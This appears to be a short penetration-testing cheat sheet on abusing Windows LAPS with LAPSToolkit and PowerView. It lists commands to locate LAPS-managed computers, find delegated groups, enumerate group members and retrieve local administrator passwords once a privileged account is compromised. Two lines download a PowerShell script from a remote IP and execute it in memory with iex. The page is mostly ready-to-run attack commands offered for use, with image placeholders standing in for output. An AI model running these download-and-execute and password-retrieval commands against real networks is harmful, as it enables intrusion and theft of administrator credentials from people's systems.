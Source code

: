 # LAPS

## LAPS

### LAPSToolKit Usage

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28249%29%20%281%29.png)

### Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

